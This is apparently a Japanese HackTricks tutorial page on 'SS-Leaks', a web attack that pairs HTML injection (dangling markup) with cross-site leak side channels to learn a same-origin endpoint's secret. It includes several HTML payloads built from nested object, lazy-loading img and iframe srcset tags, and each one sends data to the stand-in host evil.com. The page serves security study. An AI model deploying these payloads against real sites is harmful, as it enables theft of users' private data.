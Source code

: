 # SS-Leaks

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)や[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングテクニックを共有する。

</details>

これは**dangling markupとXS-Leaks**の**ミックス**です。一方で、脆弱性は**同一オリジン**のページにHTML（ただしJSは不可）を**インジェクト**することを可能にします。他方で、HTMLをインジェクトできるページを直接**攻撃**するのではなく、**別のページ**を攻撃します。

## ネストされたオブジェクト

もし<mark style="color:yellow;">`/api/v1/leaky?secret=a`</mark>エンドポイントが404ステータスコードを返す場合、内部の`object`がロードされ、<mark style="color:yellow;">`https://evil.com?callback=a`</mark>へのコールバックを提供し、検索クエリ`a`が結果を返さなかったことを知らせます。
```html
<object data="/api/v1/leaky?secret=a">
<object data="https://evil.com?callback=a"></object>
</object>
```
### レイジーローディング

CSPが外部オブジェクトをブロックした場合はどうでしょうか？次のCSPで再試行してみましょう：

<mark style="color:yellow;">`Content-Security-Policy: default-src 'self'; img-src *;`</mark>

上記の`object`コールバックはもう機能しません。代わりに、画像の[レイジーローディング](https://developer.mozilla.org/en-US/docs/Web/Performance/Lazy\_loading)を使用できます！以下の画像は、表示されていてビューポートから一定の距離内にあるときにのみロードされます。
```html
<object data="/api/v1/leaky?secret=a">
<img src="https://evil.com?callback" loading="lazy">
</object>
```
### レスポンシブ画像

上記の技術は優れていますが、ユーザーのビューポート内にHTMLインジェクションがあることに依存しています。

インジェクションが画面外であり、ユーザーがスクロールしない場合、データを漏洩できるでしょうか？もちろん、要素IDと[scroll-to-text-fragment](https://chromestatus.com/feature/4733392803332096)を使用してスクロールを強制するURLを作成することができますが、これらはユーザーの操作に依存しており、現実のシナリオで一貫した漏洩を達成することはできません。理想的には、格納されたHTMLインジェクションを信頼性のある方法で武器化したいです。

レスポンシブ画像の出番です！特に、画像の`srcset`と`sizes`属性です。

{% code overflow="wrap" %}
```html
<object data="/api/v1/leaky?secret=a">
<iframe srcdoc="<img srcset='https://evil.com?callback=1 480w, https://evil.com?callback=0 800w' sizes='(min-width: 1000px) 800px, (max-width 999px) 480px'>" width="1000px">
</object>
```
{% endcode %}

ここには解説すべきことがかなりあります。まず、リーキーなエンドポイントが404ステータスコードを返す場合にのみ、内側のiframeが表示されることを覚えておいてください。

これは重要です。なぜなら、iframe内の画像を条件付きで2つの異なるURLからロードすることになるからです。`sizes` 属性を使用して、ビューポートのサイズに応じてどのURLから画像をロードするかを選択するために、[メディアクエリ](https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_media_queries/Using_media_queries)を使用できます。

{% code overflow="wrap" %}
```html
<img
srcset='https://evil.com?callback=0 800w, https://evil.com?callback=1 480w'
sizes='(min-width: 1000px) 800px, (max-width 999px) 480px'
>
```
{% endcode %}

iframeの`width="1000px"`があるため、以下のようなことが起こります：

1. もしリーキーなエンドポイントが404ステータスコードを返す場合、iframeは表示され、幅は1000pxになります。iframe内の画像は`(min-width: 1000px)`メディアクエリに一致し、`https://evil.com?callback=0`から800pxの画像をロードします。
2. もしリーキーなエンドポイントが200ステータスコードを返す場合、iframeは表示され_ません_。画像は大きなiframeの一部としてレンダリングされていないため、`(max-width 999px)`メディアクエリに一致し、`https://evil.com?callback=1`から480pxの画像をロードします。

## 参考文献

* [https://infosec.zeyu2001.com/2023/from-xs-leaks-to-ss-leaks](https://infosec.zeyu2001.com/2023/from-xs-leaks-to-ss-leaks)

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェック！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックしてください。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有**してください。

</details>
